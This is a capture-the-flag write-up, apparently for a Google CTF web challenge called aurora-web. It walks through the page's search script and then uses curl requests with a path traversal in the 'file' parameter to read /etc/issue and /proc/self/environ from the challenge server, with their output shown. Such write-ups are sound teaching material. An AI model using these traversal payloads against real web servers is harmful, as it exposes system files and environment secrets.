 We have a dropdown menu with a selection of files and a text box where we can put the search term. Looking at the source, we learn that clicking on the search button, the browser will issue a GET to the server, using this JavaScript:

```javascript
function search() {
  const file = document.getElementById("files").value;
  const term = document.getElementById("searchterm").value;
  const url = document.location.origin + "?file=" + escape(file) + "&term=" + escape(term);

  if (term.length < 4) {
    alert("Search term must be at least 4 characters long!");
    return;
  }

  document.getElementById("found").value = "Loading...";

  const xhr = new XMLHttpRequest();
  xhr.onload = function() {
    document.getElementById("found").value = xhr.responseText;
  }
  xhr.open("GET", url);
  xhr.send();
}
```

We can, of course, ignore everything in this function and just craft our own GET request, although the minimum length of `term` value is actually enforced on the server:

```shell
❯ curl 'https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=aur'
(nothing)
❯ curl 'https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=auro'
0001bd20  d2 04 69 98 10 00 00 00  66 3a 5c 41 75 72 6f 72  |..i.....f:\Auror|
0001bd30  61 5f 53 72 63 5c 41 75  72 6f 72 61 56 4e 43 5c  |a_Src\AuroraVNC\|
```

After tinkering with the `file` parameter, I discovered a path traversal vulnerability, which is tricky to exploit because we need to know at least 4 characters of the text we want to display:

```shell
❯ curl 'https://aurora-web.h4ck.ctfcompetition.com/?file=../../etc/issue&term=bunt'
Ubuntu 20.04 LTS \n \l
```

Now, we need to find the flag... Let's search the environment first:

```shell
❯ curl -s 'https://aurora-web.h4ck.ctfcompetition.com/?file=../../proc/self/environ&term=http' \
    --output - | tr '\0' '\n'
SERVER_NAME=aurora-web.h4ck.ctfcompetition.com
SCRIPT_NAME=/cgi-bin/nsjail-perl-cgi
[...]
REDIRECT_URL=/index.pl
[...]
```
